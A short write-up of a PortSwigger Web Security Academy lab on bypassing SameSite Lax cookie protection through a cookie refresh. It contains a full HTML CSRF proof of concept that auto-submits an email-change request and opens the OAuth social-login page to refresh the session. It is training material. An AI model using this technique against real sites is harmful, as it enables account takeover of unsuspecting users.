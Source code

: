 # Practitioner Lab 85: SameSite Lax bypass via cookie refresh

---

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

I added a script to initiate the sign in to reset the token and then quickly I would then do a csrf attack

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4e0090038236ba821a572100ae000d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test4&#64;changedemail&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>

window.onclick = () => {
    window.open('https://0a4e0090038236ba821a572100ae000d.web-security-academy.net/social-login');
}

      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

After trying it on myself I then delivered this to the victim.

This then solved the lab.